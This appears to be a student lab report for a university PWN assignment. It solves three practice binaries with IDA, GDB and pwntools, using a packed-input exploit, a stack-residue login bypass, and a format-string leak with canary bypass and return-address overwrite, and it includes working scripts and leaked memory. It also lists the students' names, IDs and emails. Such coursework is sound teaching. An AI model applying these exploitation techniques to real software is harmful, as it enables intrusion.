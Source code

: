 [TOC]

# <center>《网络攻防实战》实验报告</center>

### **PWN第一次作业**

### 小组成员姓名：金宇航、成浩鹏

### 小组成员学号：181250062、181250020

### 18级软件学院大一班

### 小组成员邮箱：181250062@smail.nju.edu.cn、181250020@smail.nju.edu.cn

### 时间：2019.12.10

---

## 一、 实验目的

1. IDA
2. GDB
3. PWNTOOLS

## 二、 实验内容

### ex1

1. 通过IDA看到需要填一个整型和一个双精度实数分别为0xdeadbeef和3.14

2. 这两个变量分别位于[esp+4h]和[esp+8h]

3. 通过gdb得到3.14在内存中存储为0x40091eb851eb851f

4. 用'a'填充20个字符中前后的空位，中间填整数和实数

5. ```python
   from pwn import *
   sh = process("./ex1")
   sh.sendline("a" * 4 + p32(0xdeadbeef) + p64(0x40091eb851eb851f) + "a" * 4)
   sh.interactive()
   ```

### ex2

1. 通过作业说明知道了需要利用栈残留，就在login中的输入部分分别输入`ABCDEFGHIJKLMNOPQRS\n`和`abcdefghijklmno\n`

2. 在gdb中观察，执行到verify函数中时，`IJab`会和`root`比较，`BCDEFGH`会和`Trinity`比较，就在输入的字符串中做相应的修改

3. ```python
   from pwn import *
   sh = process("./ex2")
   sh.sendline("ATrinityroKLMNOPQRS\notcdefghijklmno\n")
   sh.interactive()
   ```

### ex3

1. 通过IDA和gdb知道代码原有的canary是0xDEADBEEF，gcc自带的canary的地址就在原有canary之后，再之后的8个字节为数据，然后4个字节是ebp，再4个字节是函数的返回地址

2. 通过GDB获取并计算，main-getshell=0x166

3. ```python
   from pwn import *
   sh = process("./ex3")
   ```

4. 先用printf获取内存里的值

   ```python
   sh.send("%p" * 50)
   sh.recv()
   ```

   > Hello, I\'m compiled with "-fstack-protector -fPIE -pie -z noexecstack". I\'m very secure!\nShhhhh, my canary is sleeping...\n0xff9b1df40x2000x565c82bd(nil)0x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70257025**0xdeadbeef0x1815d3000x565c90a80x565cb0000xff9b1e780x565c83a5**0xff9b1e90(nil)(nil)0xf7d9a7e10xf7f530000xf7f53000(nil)0xf7d9a7e10x10xff9b1f240xff9b1f2c0xff9b1eb40x1(nil)0xf7f53000\xef\xbe\xad\xde

5. 发现其中有0xdeadbeef，也就知道了1中提到的东西。函数的返回地址，减去0x166就是getshell中某个指令的地址。依次填充完s的100个字节，然后填0xdeadbeef，gcc的canary（0x1815d300），不需要处理的数据（0x565c90a80x565cb000），不需要修改的ebp（0xff9b1e78），最后是getshell的地址（0x565c83a5-0x166=0x565c823f）

   ```
   sh.send("a" * 100 + p32(0xdeadbeef) + p32(0x1815d300) + p32(0x565c90a8) + p32(0x565cb000) + p32(0xff9b1e78) + p32(0x565c823f))
   ```

6. 最后`sh.interactive()`进入shell，但是没有看到`Congratulations! Here is the gift:`

7. 0x166是main和getshell之间的距离，而通过4得到的函数返回地址比main要大，所以5中就从获取shell开始执行，跳过了之前打印字符的指令。所以要精确地定位到getshell的头部，还需要在减去0x166的基础上再减去0x36就是getshell的起始位置了

## 三、 实验结果

获得三个`Congratulations`

## 四、 实验中遇到的问题及解决方案

无

## 五、 组员分工

无

## 六、 实验的启示/意见和建议

---

附：本次实验你总共用了多长时间？包括学习相关知识时间、完成实验内容时间、完成实验报告时间。（仅做统计用，时间长短不影响本次实验的成绩。）

1天